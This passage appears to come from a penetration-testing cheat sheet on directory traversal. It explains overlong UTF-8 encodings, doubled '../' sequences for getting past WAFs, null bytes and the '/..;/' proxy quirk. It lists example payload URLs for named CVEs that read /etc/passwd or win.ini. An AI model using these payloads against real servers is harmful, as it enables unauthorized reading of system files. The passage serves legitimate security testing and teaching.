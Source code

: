
### Overlong UTF-8 Unicode Encoding

The UTF-8 standard mandates that each codepoint is encoded using the minimum number of bytes necessary to represent its significant bits. Any encoding that uses more bytes than required is referred to as "overlong" and is considered invalid under the UTF-8 specification. This rule ensures a one-to-one mapping between codepoints and their valid encodings, guaranteeing that each codepoint has a single, unique representation.

| Character | Encoded |
| --- | -------- |
| `.` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%c0%5c`, `%c0%80%5c` |


### Mangled Path

Sometimes you encounter a WAF which remove the `../` characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

**Example:**: Mirasys DVMS Workstation <=5.12.6

```ps1
{{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
```


### NULL Bytes

A null byte (`%00`), also known as a null character, is a special control character (0x00) in many programming languages and systems. It is often used as a string terminator in languages like C and C++. In directory traversal attacks, null bytes are used to manipulate or bypass server-side input validation mechanisms.

**Example:** Homematic CCU3 CVE-2019-9726

```js
{{BaseURL}}/.%00./.%00./etc/passwd
```

**Example:** Kyocera Printer d-COPIA253MF CVE-2020-23575

```js
{{BaseURL}}/wlmeng/../../../../../../../../../../../etc/passwd%00index.htm
```


### Reverse Proxy URL Implementation

Nginx treats `/..;/` as a directory while Tomcat treats it as it would treat `/../` which allows us to access arbitrary servlets.
